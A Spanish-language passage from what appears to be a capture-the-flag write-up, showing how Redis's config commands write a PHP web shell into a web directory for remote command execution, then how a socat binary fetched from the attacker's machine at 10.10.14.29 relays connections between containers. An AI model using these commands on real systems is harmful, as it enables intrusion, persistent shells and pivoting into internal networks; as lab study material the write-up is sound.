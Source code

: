 
    ```
    hay que asegurarse que hayan saltos de linea al principio y al final del fichero

1. Buscamos un directorio en la web

    como vemos que en el JS de la web hay nombres de ficheros raros cojemos uno como por ejemplo el **8924d0659008565c554f8128cd11fda4**

1. Enviamos el fichero php al directorio

    ```bash
    cat cmd.php | redis-cli -h 127.0.0.1 -x set reverse
    redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0659008565c554f8128cd11fda4/
    redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
    redis-cli -h 127.0.0.1 save
    ```

1. con firefox vamos a la url 
```bash
 http://localhost/8924d0659008565c554f8128cd11fda4/cmd.php?cmd=whoami 
```


Aqui vemos que tenemos un RCE activado. Si le ponemos el comando hostname, podemos ver un nuevo segmento que seria el **172.20.0.0/24**.
Como no tenemos connectividad de esta maquina (www) hacia nuestra maquina de atacante, tenemos que passar por la 172.19.0.4 hasta la nuestra.
Por esto usaremos socat

### Ganando Acceso a WWW con puente de coneccion via socat {-}

1. descargamos socat

    ```bash
    wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
    chmod +x socat
    ```

1. subimos el socat al contenedor nodered

    - en la maquina de atacante creamos un servicio http 

        ```bash
        python -m http.server 80
        ```

    - descargamos el socat con la funccion __curl()

        ```bash
        __curl http://10.10.14.29/socat > socat
        chmod +x socat
        ```

1. con socat configuramos el puente en la maquina nodered

    ```bash
    ./socat TCP-LISTEN:1111,fork TCP:10.10.14.29:2222 &
    ```
